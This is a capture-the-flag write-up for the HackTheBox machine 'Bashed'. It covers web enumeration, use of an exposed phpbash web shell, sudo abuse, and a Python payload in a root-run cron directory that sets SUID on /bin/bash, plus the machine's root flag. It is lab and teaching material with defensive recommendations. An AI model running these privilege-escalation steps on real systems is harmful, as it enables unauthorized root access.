# HTB - Bashed

**IP Address:** `10.129.10.59`  
**OS:** Linux  
**Difficulty:** Easy  
**Tags:** #Linux #Apache #DirectoryListing #WebShell #SudoMisconfig #Cron #PrivilegeEscalation

---
## Synopsis

Bashed is an easy Linux machine where web enumeration reveals an exposed `/dev/` directory containing `phpbash.php`, which provides direct command execution as `www-data`. From that foothold, user enumeration leads to the user flag in `/home/arrexel/user.txt`. Local privilege escalation is achieved via a sudo misconfiguration allowing `www-data` to run any command as `scriptmanager`, combined with a writable script path under `/scripts` that is executed by root on a schedule. A payload modifies `/bin/bash` permissions to SUID, and `bash -p` yields root access.

---
## Skills Required

- Basic Linux and web enumeration (`nmap`, `curl`, `whatweb`)
- Understanding of web shell command execution
- Basic local Linux privilege escalation checks (`sudo -l`, file ownership, cron indicators)

## Skills Learned

- Turning web directory listing + exposed dev tooling into immediate foothold
- Identifying privilege boundaries using `sudo` delegation to another local user
- Exploiting writable scheduled scripts for root-level code execution

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:


```bash
ping -c 1 10.129.10.59
```



---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:


```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.10.59 -oG allPorts
extractPorts allPorts
```




Open ports:

`80`

---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:


```bash
nmap -sCV -p80 10.129.10.59 -oN targeted
cat targeted -l java
```



Key findings:
- `80/tcp` -> Apache 2.4.18 (Ubuntu)
- Title -> `Arrexel's Development Site`

---
## 2. Service Enumeration

### 2.1 Homepage Clue

Fingerprint the site and pull the homepage to see what technologies and hints are exposed:

```bash
whatweb http://10.129.10.59
curl -i http://10.129.10.59 #output too long
```

Homepage mentions `phpbash` and that it was developed on the same server.




---
### 2.2 Directory Discovery (`http-enum`)

Run the default `http-enum` script to surface common paths and entry points:

```bash
nmap --script http-enum -p80 10.129.10.59
```



High-signal paths discovered:

- `/dev/`
- `/php/`
- `/uploads/`

---
### 2.3 Exposed `/dev/`

Confirm directory listing and inspect the suspected webshell endpoints:

```bash
curl -i http://10.129.10.59/dev/ #output too long
curl -i http://10.129.10.59/dev/phpbash.php #output too long
```



`/dev/` has directory listing enabled and exposes:
- `phpbash.php`.
- `phpbash_min.php`.

The two .php files executes a webshell:



---
## 3. Foothold

### 3.1 Foothold and User Flag

Inside `phpbash`, command execution runs as `www-data`.  
From there:

```bash
cd /home
ls
cd arrexel
cat user.txt
```



🏁 **User flag obtained**

---
## 4. Privilege Escalation

### 4.1 Sudo Delegation to `scriptmanager`

Check identity, groups, and passwordless `sudo` from the `www-data` context:

```bash
id
groups
sudo -l
sudo -u scriptmanager whoami
```



Key finding:
- `www-data` may run `ALL` as `(scriptmanager : scriptmanager)` with `NOPASSWD`.

---
### 4.2 Script Execution Surface Under `/scripts`

As `scriptmanager`, enumeration shows writable script material:

```bash
find / -user scriptmanager 2>/dev/null | grep -v "proc"
cd /scripts
ls -l
cat test.py
cat test.txt
```




Notable observation:
- `/scripts/test.py` is owned by `scriptmanager`
- `/scripts/test.txt` is owned by `root`

---
### 4.3 Process Monitoring (Supportive Evidence)

Let's check the processes executed:




Let's create a custom process diff monitor to see how root user executes test.py:

```bash
#!/bin/bash
old_process="$(ps -eo user,command)"
while true; do
  new_process="$(ps -eo user,command)"
  diff <(echo "$old_process") <(echo "$new_process") | grep -E "^[<>]" | grep -vE "kworker|procmon"
  old_process="$new_process"
done
```

Captured periodic root cron activity (`sessionclean`), confirming scheduled root jobs are active.




Root user executes test.py because there's a CRON task where he must execute all python files from /scripts directory.

---
### 4.4 Root via SUID `bash` Variant

Let's create a Payload in `/scripts`:

```python
import os
os.system("chmod u+s /bin/bash")
```

After cron executes the script, SUID bit appears on `/bin/bash`, then:

```bash
bash -p
whoami
cat /root/root.txt
```

Root flag:
- `4af96403ddc19bd52d637acedf67fd89`



🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. Enumerated only `80/tcp` and identified Apache dev-themed homepage.
2. Found `/dev/` through `http-enum` and accessed exposed `phpbash.php`.
3. Executed commands as `www-data` and read user flag in `/home/arrexel`.
4. Abused `sudo` misconfiguration to become `scriptmanager` without password.
5. Leveraged writable script path under `/scripts` that is executed by root on schedule.
6. Set SUID on `/bin/bash`, used `bash -p` for root shell, and captured root flag.

---
## Defensive Recommendations

1. **Remove exposed administrative/dev tooling from web root**
   - Delete or restrict access to `/dev/` and `phpbash.php`.
   - Block directory listing (`Options -Indexes`) in Apache for all relevant paths.

2. **Harden sudo policy with least privilege**
   - Remove `NOPASSWD: ALL` delegation from `www-data` to `scriptmanager`.
   - Replace with tightly scoped commands only when operationally required.

3. **Secure scheduled task/script execution model**
   - Do not run root cron jobs against directories writable by non-root users.
   - Enforce strict ownership/permissions (`root:root`, non-writable by service users).

4. **Add file integrity and permission monitoring**
   - Alert on permission changes to critical binaries (e.g., SUID bit on `/bin/bash`).
   - Track unexpected modifications under execution paths like `/scripts`.

5. **Reduce web service blast radius**
   - Run web services with hardened confinement (AppArmor/SELinux, restricted sudo, minimal shell access).
   - Segment service accounts and remove unnecessary local file read permissions.
